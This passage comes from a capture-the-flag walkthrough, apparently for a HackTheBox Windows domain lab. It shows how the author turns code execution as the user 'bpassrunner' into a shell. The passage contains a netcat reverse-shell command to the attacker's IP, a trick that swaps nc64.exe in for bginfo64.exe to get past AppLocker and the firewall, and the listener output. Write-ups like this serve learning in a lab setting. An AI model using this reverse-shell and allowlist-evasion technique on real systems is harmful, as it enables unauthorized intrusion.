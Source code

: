 
Now there's a file in `C:\programdata`:



    PS C:\programdata> ls 0xdf.txt

        Directory: C:\programdata

    Mode                 LastWriteTime         Length Name
    ----                 -------------         ------ ----
    -a----        11/10/2022  10:34 PM           6178 0xdf.txt 



It shows the user is not a domain admin, but bpassrunner:



    PS C:\programdata> cat 0xdf.txt

    USER INFORMATION
    ----------------

    User Name            SID                                            
    ==================== ===============================================
    windcorp\bpassrunner S-1-5-21-3783586571-2109290616-3725730865-10102

    ...[snip]...



### Shell

It took me a bit to figure out how to turn this into a shell. I can't
just call `nc64.exe` from the web directory because it won't pass
AppLocker. I can't use PowerShell because even though I can sign it and
it will run, the firewall will block the connections outbound.

Then I realized I could try to overwrite `bginfo64.exe` with `nc64.exe`
and run it from there. While trying to do that, it failed because the
file was still in use - my current shell! That means it's actually still
`nc64.exe`.

I'll update the top of my local copy of the script to:



    C:\share\Bginfo64.exe -e cmd 10.10.14.6 9004



I'll upload it, sign it, and trigger it. And about 15 seconds later, I
get a shell:



    oxdf@hacky$ rlwrap -cAr nc -lnvp 9004
    Listening on 0.0.0.0 9004
    Connection received on 10.10.11.147 62144
    Microsoft Windows [Version 10.0.20348.643]
    (c) Microsoft Corporation. All rights reserved.

    C:\Get-bADpasswords>whoami
    windcorp\bpassrunner
